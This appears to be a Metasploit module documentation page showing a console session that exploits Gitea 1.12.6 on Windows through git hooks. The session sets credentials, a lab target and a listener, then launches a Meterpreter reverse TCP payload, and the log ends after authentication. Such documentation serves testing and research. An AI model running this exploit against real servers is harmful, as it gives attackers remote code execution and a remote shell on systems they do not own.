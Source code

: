 
### Gitea 1.12.6 on Windows

```
msf > use multi/http/gitea_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/gitea_git_hooks_rce) > set USERNAME msfuser
USERNAME => msfuser
msf exploit(multi/http/gitea_git_hooks_rce) > set PASSWORD Msf!23
PASSWORD => Msf!23
msf exploit(multi/http/gitea_git_hooks_rce) > set rhosts 192.168.144.195
rhosts => 192.168.144.195
msf exploit(multi/http/gitea_git_hooks_rce) > set RPORT 3000
RPORT => 3000
msf exploit(multi/http/gitea_git_hooks_rce) > set LHOST 192.168.144.1
LHOST => 192.168.144.1
msf exploit(multi/http/gitea_git_hooks_rce) > set target 3
target => 3
msf exploit(multi/http/gitea_git_hooks_rce) > options

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Msf!23           yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.144.195  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      3000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   msfuser          yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Windows Dropper


msf exploit(multi/http/gitea_git_hooks_rce) > set verbose true
verbose => true
msf exploit(multi/http/gitea_git_hooks_rce) > run

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Gitea version is 1.12.6
[*] Executing Windows Dropper for windows/x64/meterpreter/reverse_tcp
[*] Authenticate with "msfuser/Msf!23"
```
